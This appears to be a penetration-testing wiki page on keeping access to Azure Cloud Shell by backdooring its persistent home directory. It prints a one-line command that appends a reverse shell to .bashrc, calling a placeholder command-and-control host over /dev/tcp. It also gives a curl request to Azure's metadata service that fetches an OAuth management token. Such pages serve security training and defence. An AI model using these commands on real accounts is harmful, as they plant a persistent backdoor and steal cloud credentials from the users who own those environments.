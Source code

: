 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Azure Cloud Shell offers command-line access to manage Azure resources with persistent storage and automatic authentication. Attackers can exploit this by placing backdoors in the persistent home directory:

* **Persistent Storage**: Azure Cloud Shell’s home directory is mounted on an Azure file share and remains intact even after the session ends.
* **Startup Scripts**: Files like .bashrc execute automatically at the start of each session, allowing for persistent execution when the cloud shell starts.

Example backdoor in .bashrc:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

This backdoor can execute commands even 5 minutes after the cloud shell is finished by the user.

Additionally query Azure’s metadata service for instance details and tokens:
{% code overflow="wrap" %}
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```
{% endcode %}


{{#include ../../../banners/hacktricks-training.md}}


